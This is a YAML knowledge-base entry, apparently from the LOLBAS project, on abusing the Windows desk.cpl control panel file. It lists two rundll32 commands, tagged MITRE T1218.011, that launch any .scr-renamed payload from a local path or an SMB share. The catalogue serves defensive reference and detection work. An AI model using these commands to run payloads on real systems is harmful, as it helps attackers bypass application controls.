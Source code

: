 ```yaml
---
Name: Desk.cpl
Description: Desktop Settings Control Panel
Author: Hai Vaknin
Created: 2022-04-21
Commands:
  - Command: rundll32.exe desk.cpl,InstallScreenSaver C:\temp\file.scr
    Description: Launch an executable with a .scr extension by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
  - Command: rundll32.exe desk.cpl,InstallScreenSaver \\127.0.0.1\c$\temp\file.scr
    Description: Launch a remote executable with a .scr extension, located on an SMB share, by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11    
Full_Path:
  - Path: C:\Windows\System32\desk.cpl
  - Path: C:\Windows\SysWOW64\desk.cpl
Detection:
  - IOC: 
Resources:
  - Link: https://vxug.fakedoma.in/zines/29a/29a7/Articles/29A-7.030.txt
  - Link: https://twitter.com/pabraeken/status/998627081360695297
  - Link: https://twitter.com/VakninHai/status/1517027824984547329
Acknowledgement:
  - Person: Rafael S Marques
    Handle: '@pegabizu'
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: hai
    Handle: '@VakninHai'
---
```

